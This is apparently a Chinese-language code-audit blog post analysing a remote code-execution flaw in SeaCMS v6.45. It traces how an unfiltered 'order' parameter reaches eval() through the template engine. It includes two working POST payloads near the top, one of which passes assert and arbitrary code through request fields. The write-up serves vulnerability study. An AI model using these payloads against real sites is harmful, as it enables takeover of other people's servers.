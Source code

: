 ```yaml
---
title: SeaCMS v6.45前台代码执行漏洞分析
date: 2018-08-06 23:13:22
tags:
	- 代码审计
	- 代码执行
---
```


SeaCMS没有使用框架，比较适合练习。

<!-- more -->

### 1. 源码下载

```
链接：https://pan.baidu.com/s/1uw_VnxnvG4GGEae4TRsGGw

密码：cd48
```

### 2. POC

第一种

```
http://127.0.0.1/seacms/search.php
POST:searchtype=5&order=}{end if} {if:1)phpinfo();if(1}{end if}
```

第二种

```
http://127.0.0.1/seacms/search.php
POST:searchtype=5&order=}{end if} {if:1)print_r($_POST[a]($_POST[b]));//}{end if}&a=assert&b=phpinfo();
```

效果图

![](https://image.mengsec.com/18-8-6/49244924.jpg)

### 3. 漏洞原理分析

#### 3.1 代码执行简单流程

![](https://image.mengsec.com/18-8-6/81792070.jpg)

#### 3.2 详细分析

代码执行的原因是`$order`参数没做严格的限制，就将其传入了模板文件中，然后使用`eval()`执行模板中包含`$order`的代码。

 首先，在文件`seacms/search.php`中，包含了文件`seacms/include/common.php`,在`common.php`中第45-48行，将GET,POST等请求传入的全局变量中的键值对转换成变量，并对其中的值使用`addslashes()`进行处理。

```php
function _RunMagicQuotes(&$svar)
{
	if(!get_magic_quotes_gpc())
	{
		if( is_array($svar) )
		{
			foreach($svar as $_k => $_v) $svar[$_k] = _RunMagicQuotes($_v);
		}
		else
		{
			$svar = addslashes($svar); # 转义单引号、双引号、反斜线、NULL
		}
	}
	return $svar;
}
foreach(Array('_GET','_POST','_COOKIE') as $_request)
{
	foreach($$_request as $_k => $_v) ${$_k} = _RunMagicQuotes($_v);
}
```

然后在`seacms/search.php`文件的`echoSearchPage()`函数中，也就是文件第63行，将变量注册成全局变量。

```php
global $dsql,$cfg_iscache,$mainClassObj,$page,$t1,$cfg_search_time,$searchtype,$searchword,$tid,$year,$letter,$area,$yuyan,$state,$ver,$order,$jq,$money,$cfg_basehost;
```

可以看到，在`search.php`中，执行`echoSearchPage()`函数之前，没有对`$order`变量进行处理。

接着往下看，在`echoSearchPage()`函数中，使用`$searchtype`来选择使用的模板文件。

```php
if(intval($searchtype)==5)
	{
		$searchTemplatePath = "/templets/".$GLOBALS['cfg_df_style']."/".$GLOBALS['cfg_df_html']."/cascade.html";
		$typeStr = !empty($tid)?intval($tid).'_':'0_';
		$yearStr = !empty($year)?PinYin($year).'_':'0_';
		$letterStr = !empty($letter)?$letter.'_':'0_';
		$areaStr = !empty($area)?PinYin($area).'_':'0_';
		$orderStr = !empty($order)?$order.'_':'0_';
		$jqStr = !empty($jq)?$jq.'_':'0_';
		$cacheName="parse_cascade_".$typeStr.$yearStr.$letterStr.$areaStr.$orderStr;
		$pSize = getPageSizeOnCache($searchTemplatePath,"cascade","");
	}else
	{
		if($cfg_search_time&&$page==1) checkSearchTimes($cfg_search_time);
		$searchTemplatePath = "/templets/".$GLOBALS['cfg_df_style']."/".$GLOBALS['cfg_df_html']."/search.html";
		$cacheName="parse_search_";
		$pSize = getPageSizeOnCache($searchTemplatePath,"search","");
	}
```

当值是5时，会使用`cascade.html`，文件目录为`seacms\templets\default\html\cascade.html`，若不是，则会使用`earch.html`，文件目录为`seacms\templets\default\html\search.html`。

下面153行，将模板文件读取到`$content`变量中，接着在155-173行替换标签。其中第158行使用`$order`替换了模板中`{searchpage:ordername}`标签。然后分别搜索`search.html`和`cascade.html`，只有`cascade.html`第79-81行存在该标签。

```php+HTML
<a href="{searchpage:order-time-link}" {if:"{searchpage:ordername}"=="time"} class="btn btn-success" {else} class="btn btn-default" {end if} id="orderhits">最新上映</a>
<a href="{searchpage:order-hit-link}" {if:"{searchpage:ordername}"=="hit"} class="btn btn-success" {else} class="btn btn-default" {end if} id="orderaddtime">最近热播</a>
<a href="{searchpage:order-score-link}" {if:"{searchpage:ordername}"=="score"} class="btn btn-success" {else} class="btn btn-default" {end if} id="ordergold">评分最高</a>
```

因此，必须要`$searchtype==5`。

接着往下走，在第212行

```p&#39;h&#39;p
$content=$mainClassObj->parseIf($content);
```

跟进去，在`seacms\include\main.class.php`中第3098-3147行中。

```php
function parseIf($content)
{
    if (strpos($content, '{if:') === false) {
        return $content;
    } else {
        $labelRule = buildregx("{if:(.*?)}(.*?){end if}", "is");
        $labelRule2 = "{elseif";
        $labelRule3 = "{else}";
        preg_match_all($labelRule, $content, $iar);
        $arlen = count($iar[0]);
        $elseIfFlag = false;
        for ($m = 0; $m < $arlen; $m++) {
            $strIf = $iar[1][$m];
            $strIf = $this->parseStrIf($strIf);
            $strThen = $iar[2][$m];
            $strThen = $this->parseSubIf($strThen);
            if (strpos($strThen, $labelRule2) === false) {
                if (strpos($strThen, $labelRule3) >= 0) {
                    $elsearray = explode($labelRule3, $strThen);
                    $strThen1 = $elsearray[0];
                    $strElse1 = $elsearray[1];
                    @eval("if(" . $strIf . "){\$ifFlag=true;}else{\$ifFlag=false;}");
                    if ($ifFlag) {
                        $content = str_replace($iar[0][$m], $strThen1, $content);
                    } else {
                        $content = str_replace($iar[0][$m], $strElse1, $content);
                    }
                } else {
                    @eval("if(" . $strIf . ") { \$ifFlag=true;} else{ \$ifFlag=false;}");
                    if ($ifFlag) {
                        $content = str_replace($iar[0][$m], $strThen, $content);
                    } else {
                        $content = str_replace($iar[0][$m], "", $content);
                    }
                }
            } else {
                $elseIfArray = explode($labelRule2, $strThen);
                $elseIfArrayLen = count($elseIfArray);
                $elseIfSubArray = explode($labelRule3, $elseIfArray[$elseIfArrayLen - 1]);
                $resultStr = $elseIfSubArray[1];
                $elseIfArraystr0 = addslashes($elseIfArray[0]);
                @eval("if({$strIf}){\$resultStr=\"{$elseIfArraystr0}\";}");
                for ($elseIfLen = 1; $elseIfLen < $elseIfArrayLen; $elseIfLen++) {
                    $strElseIf = getSubStrByFromAndEnd($elseIfArray[$elseIfLen], ":", "}", "");
                    $strElseIf = $this->parseStrIf($strElseIf);
                    $strElseIfThen = addslashes(getSubStrByFromAndEnd($elseIfArray[$elseIfLen], "}", "", "start"));
                    @eval("if(" . $strElseIf . "){\$resultStr=\"{$strElseIfThen}\";}");
                    @eval("if(" . $strElseIf . "){\$elseIfFlag=true;}else{\$elseIfFlag=false;}");
                    if ($elseIfFlag) {
                        break;
                    }
                }
                $strElseIf0 = getSubStrByFromAndEnd($elseIfSubArray[0], ":", "}", "");
                $strElseIfThen0 = addslashes(getSubStrByFromAndEnd($elseIfSubArray[0], "}", "", "start"));
                if (strpos($strElseIf0, '==') === false && strpos($strElseIf0, '=') > 0) {
                    $strElseIf0 = str_replace('=', '==', $strElseIf0);
                }
                @eval("if(" . $strElseIf0 . "){\$resultStr=\"{$strElseIfThen0}\";\$elseIfFlag=true;}");
                $content = str_replace($iar[0][$m], $resultStr, $content);
            }
        }
        return $content;
    }
}
```

可以看到下面存在`eval()`函数来执行代码，要想进入到`eval()`，`$content`中必须含有`{if:`字符串。

然后是正则，

```php
$labelRule = buildregx("{if:(.*?)}(.*?){end if}","is");
preg_match_all($labelRule,$content,$iar);
```

看代码执行流程，在`eval()`函数中，`$strIf`就是之前`preg_match_all()`中第一个`(.*?)`匹配出来的值。

```php
@eval("if(".$strIf."){\$ifFlag=true;}else{\$ifFlag=false;}");
```

在`eval()`中，要闭合前面的if语句，可以构造`1)phpinfo();if(1`，又要符合正则`{if:(.*?)}(.*?){end if}`，再看标签：

```php+HTML
<a href="{searchpage:order-time-link}" {if:"{searchpage:ordername}"=="time"} class="btn btn-success" {else} class="btn btn-default" {end if} id="orderhits">最新上映</a>
```

由于`$order`替换的是`{searchpage:ordername}`，所以，在`1)phpinfo();if(1`基础上添加。

```php+HTML
}{end if}{if:1)phpinfo();if(1}{end if}
```

漏洞利用的基本流程就是这样，简单来说，就是有个可控的变量没有经过过滤，就被带入了`eval()`中，导致了代码执行。

###  4. 参考

[SeaCMS v6.45前台Getshell 代码执行 ](https://github.com/SecWiki/CMS-Hunter/tree/master/seacms/SeaCMS%20v6.45%E5%89%8D%E5%8F%B0Getshell%20%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C)